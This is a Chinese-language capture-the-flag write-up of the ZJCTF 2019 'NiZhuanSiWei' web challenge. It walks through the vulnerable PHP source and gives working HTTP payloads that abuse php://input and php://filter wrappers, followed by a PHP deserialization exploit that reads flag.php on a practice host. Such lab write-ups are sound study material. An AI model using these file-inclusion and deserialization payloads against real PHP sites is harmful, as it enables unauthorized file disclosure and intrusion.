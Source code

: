 # ZJCTF 2019

## NiZhuanSiWei

> *2021/07/06*

### 题目

进去发现源码

```php
<?php  
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?>
```

这里需要上传三个参数`text`，`file`，`password`，`text`需要引入一个包含`welcome to the zjctf`的文件，这里可以采用`php://input`伪协议的方法，或者采用远程引入的方法；`file`参数则是不能包含`flag`，我们看到注释中包含`useless.php`，我们先用`php://filter`伪协议读取`useless.php`的源代码，base64解码；password暂时还没什么利用方向

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

我们读取到了`useless.php`的源代码，现在要利用他来进行我们的反序列化，这时候前面的`password`就派上了用场，因为`Flag`类中，包括我们的`__toString`魔术方法，会在我们把**对象当做字符串使用时调用**，利用我们的`Flag`类进行反序列化拿到`flag`

### payload

```http
POST /?text=php://input&file=php://filter/read=convert.base64-encode/resource=useless.php&password=1 HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```

```php
<?php
include useless.php
    
$res = new Flag();
$res->file = 'flag.php';
echo serialize($res);

// O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```

```http
POST /?text=php://input&file=useless.php&password=O:4:"Flag":1:{s:4:"file";s:8:"flag.php";} HTTP/1.1
Host: 2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://2f0f5908-ccea-41ad-9d55-cd848ecede29.node4.buuoj.cn/?text=php://input&file=php://filter/read=conver.base64-encode/resource=useless.php&password=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0
Connection: close

welcome to the zjctf
```